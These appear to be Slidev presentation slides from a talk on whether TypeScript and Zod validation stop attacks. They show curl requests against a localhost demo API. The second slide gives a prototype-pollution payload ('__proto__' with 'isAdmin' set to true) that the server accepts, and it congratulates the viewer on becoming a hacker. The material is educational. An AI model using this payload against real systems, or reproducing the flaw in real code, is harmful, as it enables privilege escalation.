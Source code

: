 layout: cover
---

# TypeScript + Zod saves us? 🤞

```sh {all|5,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": {"type": "email"}, 
       "notificationMode": ["daily"], 
       "notificationModeValue": "disabled"}'

{ "error": [{
      "code": "invalid_type",
      "expected": "string",
      "received": "array",
      "path": [ "notificationMode" ],
      "message": "Expected string, received array"
    }]}
```

<v-click at="1">

Hurray! 🎉

</v-click>

---
layout: cover
color: red
---

# TypeScript + Zod saves us??? 😱

#### Let's apply another offensive security trick... ☠️

```sh {all|4,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'

User notification setting updated successfully 
```


<v-click at="1">

Congrats, you're a hacker! 👏
</v-click>

